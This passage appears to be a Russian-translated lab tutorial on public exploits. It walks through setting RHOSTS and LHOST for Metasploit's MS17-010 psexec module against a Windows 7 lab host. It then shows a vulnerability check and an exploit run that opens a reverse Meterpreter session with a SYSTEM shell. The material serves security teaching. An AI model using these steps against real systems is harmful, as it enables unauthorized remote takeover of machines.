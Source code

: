 ```shell-session
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Любой вариант с `Required` установлен в `yes`необходимо настроить, чтобы эксплойт работал. В этом случае у нас есть только два варианта установки: `RHOSTS`, что означает IP нашей цели (это может быть один IP, несколько IP или файл, содержащий список IP). Второй вариант, `LHOST`, представляет IP-адрес нашего атакующего хоста (это может быть один IP-адрес или имя сетевого интерфейса. В примере ниже: `LHOST` устанавливается на IP-адрес, связанный с нашим `tun0` интерфейс.) Мы можем установить их с помощью `set` команда:

Публичные подвиги

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Как только у нас будут установлены обе опции, мы сможем начать эксплуатацию. Однако прежде чем запустить скрипт, мы можем запустить проверку, чтобы убедиться в уязвимости сервера:

Публичные подвиги

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Как мы видим, сервер действительно уязвим. Обратите внимание, что не каждый эксплойт в `Metasploit Framework` поддерживает `check`функция. Наконец, мы можем использовать `run` или `exploit` команда для запуска эксплойта:

Публичные подвиги

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
